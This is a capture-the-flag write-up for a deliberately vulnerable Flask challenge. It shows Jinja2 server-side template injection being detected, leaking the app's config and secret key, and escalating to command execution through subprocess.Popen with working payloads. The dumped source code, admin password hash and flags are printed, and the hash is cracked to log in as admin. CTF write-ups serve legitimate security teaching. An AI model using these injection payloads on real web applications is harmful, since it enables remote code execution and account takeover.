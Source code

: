 ```yaml
---
description: 65 Solves
---
```


# Outline - Task 1 & 2

> dOh look its a vulnerable flask app! There are 2 flags hidden here. Good luck!
>
> Task 1: Retrieve the flag from its configs
>
> `nc c2.lagncrash.com 8002`

![](<../../.gitbook/assets/image (19).png>)

![](<../../.gitbook/assets/image (25).png>)

We noticed that our input is being shown directly above. This might mean a possibility of SSTI as there may be a template engine rendering the template and placing our user input into the page.

![](<../../.gitbook/assets/image (32).png>)

![](<../../.gitbook/assets/image (37).png>)

From the above output, we can see that `{{7*7}}` results in 49 and `{{7*'7'}}` results in 7777777. This means the template engine running is Jinja2, where the challenge has informed us the server is running Flask.

![](../../.gitbook/assets/image.png)

![](<../../.gitbook/assets/image (6).png>)

`{{ config.items() }}` shows us the configuration of the web server which shows us the hidden flag in 'SECRET KEY'.&#x20;

## Task 2`(36 solves)`

> Oh look its a vulnerable flask app! There are 2 flags hidden here. Good luck!
>
> Task 2: /flag seems to have an error... Try accessing as one of the other users!
>
> `nc c2.lagncrash.com 8002`

![](<../../.gitbook/assets/image (14).png>)

![](<../../.gitbook/assets/image (24).png>)

After dumping the subclasses, I found the class `subprocess.Popen` being available to us to launch a process for arbitrary command execution.

![](<../../.gitbook/assets/image (7).png>)

We copied the output and get the index of the class `subprocess.Popen` which is 215.

`{{''.__class__.mro()[1].__subclasses__()[`215`]('ls',shell=True,stdout=-1).communicate()[0].split()}}`

![](<../../.gitbook/assets/image (35).png>)

`{{''.__class__.mro()[1].__subclasses__()[`215`]('cat app.py',shell=True,stdout=-1).communicate()[0].splitlines()}}`

![](<../../.gitbook/assets/image (26).png>)

```python
[b'from flask import Flask, Response, render_template, request, redirect, url_for, session, send_from_directory, render_template_string', b'import shelve', b'import hashlib', b'from User import User', b'from Mail import Mail', b'', b"app = Flask(__name__, static_url_path='',static_folder='static')", b'app.secret_key = "LNC2022{s1mpl3_fl4sk_s3rv3r_s1d3_t3mpl4t3_1nj3c10n}"', b'', b"@app.route('/', methods=['GET'])", b'def home():', b' return render_template("home.html")', b'', b'', b"@app.route('/register', methods=['GET','POST'])", b'def register():', b" if request.method == 'GET':", b' return render_template("register.html")', b" elif request.method == 'POST':", b" username = request.form['username']", b" password = sha256(request.form['password'])", b" db = shelve.open('storage.db', 'w')", b" users = db['users']", b' user = User(username, password)', b' users[username] = user.asdict()', b" db['users'] = users", b' return redirect(url_for("home"))', b'', b'', b"@app.route('/login', methods=['POST'])", b'def login():', b' loggedin = False', b" username = request.form['username']", b" password = sha256(request.form['password'])", b" db = shelve.open('storage.db', 'r')", b" users = db['users']", b' try:', b' user = users[username]', b" print(user['password'], password)", b" if user['password'] == password:", b' loggedin = True', b" print('2')", b' else:', b" print('3')", b' pass', b' except:', b" print('4')", b' pass', b'', b' if loggedin == True:', b' session["username"] = user[\'username\']', b' session["login"] = user[\'id\']', b" return redirect(url_for('mail'))", b' else:', b' response = Response(400)', b' response.data = "Authentication failed"', b' return response', b'', b"@app.route('/mail', methods=['GET', 'POST'])", b'def mail():', b" if request.method == 'GET':", b' return render_template("mail.html")', b" elif request.method == 'POST':", b" sender = request.form['sender']", b" receiver = request.form['receiver']", b" subject = request.form['subject']", b" body = request.form['body']", b' mail = Mail(sender,receiver,subject,body)', b' id = mail.get_id()', b" db = shelve.open('storage.db', 'w')", b" mail_dict = db['mail']", b' mail_dict[id] = mail', b" db['mail'] = mail_dict", b' return render_template("sent.html", id=id)', b'', b"@app.route('/emails/<mailid>', methods=['GET'])", b'def emails(mailid):', b" db = shelve.open('storage.db', 'r')", b" users = db['users']", b" mail_dict = db['mail']", b' mail = mail_dict[mailid]', b' db.close()', b" html = f'From: {mail.get_sender()} \\", b' To: {mail.get_receiver()} \\', b' Subject: {mail.get_subject()} \\', b" {mail.get_body()}'", b' return render_template_string(html,users=users)', b'', b'', b"@app.route('/flag', methods=['GET'])", b'def flag():', b" db = shelve.open('storage.db', 'r')", b" users = db['users']", b' if session["username"] == "bigboiadmin" and session[\'login\'] == users[\'bigboiadmin\'][\'id\']:', b' response = Response(200)', b' response.data = "LNC2022{n0t_4s_s1mpl3_fl4sk_s3rv3r_s1d3_t3mpl4t3_1nj3c10n}"', b' else:', b' response = Response(400)', b' response.data = "You are not allowed to view this page"', b' return response', b'', b'', b'def sha256(hash_string):', b' sha_signature = \\', b' hashlib.sha256((hash_string).encode()).hexdigest()', b' return sha_signature', b'', b'', b'if __name__ == "__main__":', b" db = shelve.open('storage.db', 'c')", b' db[\'users\'] = {"bigboiadmin":{\'id\':\'4SAW8NH0I37CIE13MVC1Q1CL42N6PTFGECIQKS3Y0U8N8CEP\', \'username\': \'bigboiadmin\', \'password\': \'2548dac1cb1bc28328c7f92cab9cf68ebf3d15a4514268a95f9b34619b456350\'}}', b" db['mail'] = {}", b' db.close()', b' app.run()']
```

From the above output in app.py, we can find the flag in the application logic, where we are supposed to login as bigboiadmin to obtain the flag.

```
if session["username"] == "bigboiadmin" 
and session[\'login\'] == users[\'bigboiadmin\'][\'id\']:', 
b' response = Response(200)', 
b' response.data = "LNC2022{n0t_4s_s1mpl3_fl4sk_s3rv3r_s1d3_t3mpl4t3_1nj3c10n}"',
 b' else:', b' response = Response(400)', 
 b' response.data = "You are not allowed to view this page"', 
 b' return response'
```

![](<../../.gitbook/assets/image (11).png>)

```
b'def sha256(hash_string):', b' sha_signature = \\', b' hashlib.sha256((hash_string).encode()).hexdigest()', b' return sha_signature'
```

We found a SHA256 hash function in the code which implies the password is hashed with SHA256.

![](<../../.gitbook/assets/image (4).png>)

I first cracked the SHA256 password hash before using the credentials to login and obtained the flag.

![](<../../.gitbook/assets/image (38).png>)

